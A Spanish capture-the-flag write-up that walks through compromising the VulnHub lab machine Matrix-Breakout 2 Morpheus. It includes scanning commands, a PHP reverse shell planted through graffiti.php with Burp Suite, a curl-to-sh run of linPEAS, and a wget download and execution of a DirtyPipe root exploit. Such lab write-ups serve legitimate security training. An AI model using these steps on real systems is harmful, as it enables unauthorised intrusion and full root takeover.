




# Matrix-Breakout: 2 Morpheus

**Solución completa con documentación en español e inglés**

Esta es la segunda máquina de la serie Matrix-Breakout, subtitulada Morpheus:1. Está temática como un regreso a la primera película de Matrix. Tú juegas como Trinity, intentando investigar una computadora en el Nebuchadnezzar de la cual Cypher ha bloqueado a todos los demás, y que contiene la clave de un misterio.

**Dificultad**: Media-Alta

**Enlace a la máquina**: [VulnHub - Matrix-Breakout: 2 Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

---

## 1. Configuración Inicial

### 1.1 Importar las Máquinas

Empezaremos por importar las dos máquinas y ajustarlas bajo una misma red virtual.


### 1.2 Identificación de la IP Objetivo

Ya con las máquinas levantadas, vamos a empezar con un escaneo inicial para saber nuestra IP a atacar. Para ello usaremos `arp-scan`:

```bash
sudo arp-scan -l
```


### 1.3 Verificación de Conectividad

Ya con esta información comprobaremos que la máquina esté activa haciendo un ping a la IP:

```bash
ping 192.168.116.129
```


---

## 2. Escaneo de Puertos

### 2.1 Escaneo Inicial con Nmap

Con esto ya podemos empezar a trabajar con nmap para ver qué servicios están abiertos en la máquina, es decir, empezar con la fase de escaneo de puertos.

```bash
nmap --open -vv -T5 -p- 192.168.116.129
```


### 2.2 Escaneo Detallado de Servicios

Y ahora podemos hacer otro nmap pero sobre los puertos abiertos para encontrar puntos de acceso y versiones de servicios:

```bash
nmap -sC -sV -p 22,80,81 192.168.116.129
```


**Resultados del escaneo:**
- Puerto 22: SSH
- Puerto 80: HTTP
- Puerto 81: HTTP

---

## 3. Enumeración Web

### 3.1 Exploración del Puerto 80

Con esto podemos observar que el puerto 80 está abierto y que es un servidor web, así que vamos a probarlo:



Y con esto ya empieza nuestro juego de infiltración.

### 3.2 Análisis del Código Fuente

Empezaremos con un escaneo del código fuente de esta página web:


### 3.3 Revisión de robots.txt

Y también revisaremos el archivo de enumeración (guardado por defecto en robots.txt):


En este caso vemos que el robots.txt está bien guardado y nos da un mensaje de seguridad.

### 3.4 Fuerza Bruta de Directorios

Nos hemos topado con un callejón sin salida, pero al mal tiempo buena cara o medidas desesperadas, usemos la fuerza bruta para encontrar más directorios expuestos en el puerto 80.

Para ello usaremos nuestra herramienta dirBuster y sus listas de palabras incluidas:


Lo iniciaremos y esperaremos a que termine de buscar directorios:


**Resultado**: Encontramos un directorio llamado `graffiti.php` que también nos da acceso con un código 200. Vamos a revisarlo:



### 3.5 Análisis de graffiti.php

Cada mensaje que escribimos en la casilla de mensaje es revisado por el servidor y se coloca en una lista que se ve en pantalla:


---

## 4. Explotación

### 4.1 Identificación de la Vulnerabilidad

Ya tenemos una posible vulnerabilidad de SQL injection o un PHP injection reversal. Pero para verificar que lo que suponemos es cierto usaremos la herramienta Burp Suite, que es muy parecida a Wireshark pero está más enfocada en un solo target.


Como podemos observar, todos los datos se guardan en un archivo txt que será procesado por PHP:


### 4.2 Preparación del Reverse Shell

¿Qué podemos hacer con esto? PHP reverse shell. Una versión sencilla puede ser encontrada en este repositorio:

**Repositorio**: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

### 4.3 Inyección del Reverse Shell

Usaremos la herramienta de Burp Suite para mandar este reverse shell como una request en el message y dando como file en vez de un txt un php para que el servidor lo procese. Modificaremos la IP y el puerto para que se conecte a nuestra máquina. Usaremos el puerto 9999 porque sabemos que no será usado.

**⚠️ Advertencia**: Mucho ojo en este paso pues un error puede destruir la máquina que estamos atacando como ya me pasó a mí en una ocasión y por eso verán una dirección IP de la máquina Morfeo distinta (192.168.116.130).


### 4.4 Establecimiento del Listener

Posteriormente pondremos un netcat a escuchar en el puerto 9999 y nos conectaremos a nuestra máquina:

```bash
nc -lnvp 9999
```

Al hacer otra request cualquiera recibiremos esto:



Y como podemos observar, entramos:



### 4.5 Obtención de la Primera Flag

Y con esto obtenemos nuestra primera flag:


---

## 5. Escalada de Privilegios

### 5.1 Ejecución de LinPEAS

Ahora tendremos que escalar privilegios para poder obtener la segunda flag. ¿Cómo lo haremos? Fácil, utilizaremos otro script que nos permite escalar privilegios llamado linPEAS (Linux Privilege Escalation Awesome Script).

**Repositorio**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

Lo ejecutaremos directamente en la máquina con este comando:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


### 5.2 Análisis de Resultados

Este script nos dará mucha información útil, pero nos centraremos en los exploits abiertos o sin corregir que tiene la máquina:


### 5.3 Explotación de DirtyPipe (CVE-2022-0847)

De todos ellos, encontramos repositorios directos que nos permiten explotar el siguiente:

**[CVE-2022–0847] DirtyPipe**

Para ejecutarlo haremos lo siguiente en la consola de la máquina hackeada:

```bash
cd /var/www/html
wget https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```


### 5.4 Verificación de Acceso Root

Verificamos entrando en /root:


### 5.5 Obtención de la Segunda Flag

Y obtenemos la segunda y última flag:


---

## Resumen

Esta máquina nos ha permitido practicar:

1. **Escaneo de red y puertos** con `arp-scan` y `nmap`
2. **Enumeración web** con análisis de código fuente y fuerza bruta de directorios
3. **Explotación de vulnerabilidades** mediante inyección de PHP reverse shell
4. **Escalada de privilegios** usando linPEAS y el exploit DirtyPipe (CVE-2022-0847)

---

## Referencias

- **Artículo original**: [Matrix Breakout 2 Morpheus - Medium](https://medium.com/@mithunachary21/matrix-breakout-2-morpheus-6c9f4b73318d)
- **PHP Reverse Shell**: https://github.com/pentestmonkey/php-reverse-shell
- **LinPEAS**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- **DirtyPipe Exploit**: https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
- **CVE-2022-0847**: https://dirtypipe.cm4all.com/

---

## Notas Finales

- Asegúrate de tener las máquinas en la misma red virtual
- Ten cuidado al modificar los parámetros en Burp Suite para no dañar la máquina objetivo
- Los pasos de escalada de privilegios pueden variar según la configuración específica de la máquina
